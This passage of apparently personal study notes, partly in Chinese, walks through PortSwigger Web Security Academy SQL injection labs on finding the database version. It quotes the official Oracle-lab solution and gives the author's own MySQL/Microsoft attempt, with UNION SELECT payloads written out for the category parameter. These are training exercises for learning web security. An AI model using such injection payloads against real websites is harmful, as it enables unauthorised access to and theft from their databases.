 #### 官方解

1. Use Burp Suite to intercept and modify the request that sets the product category filter.

2. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:

   ```
   '+UNION+SELECT+'abc','def'+FROM+dual--
   ```

3. Use the following payload to display the database version:

   ```
   '+UNION+SELECT+BANNER,+NULL+FROM+v$version--
   ```

### 八、Mysql数据库版本

Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

#### 步骤

```http
https://0a7100e3047e5a408030037a002900d7.web-security-academy.net/filter?category=Giftsaa' union select version(),@@version--+
```

<img src=".\图片\Snipaste_2023-06-03_12-30-05.png" alt="Snipaste_2023-06-03_12-30-05" style="zoom:67%;" />
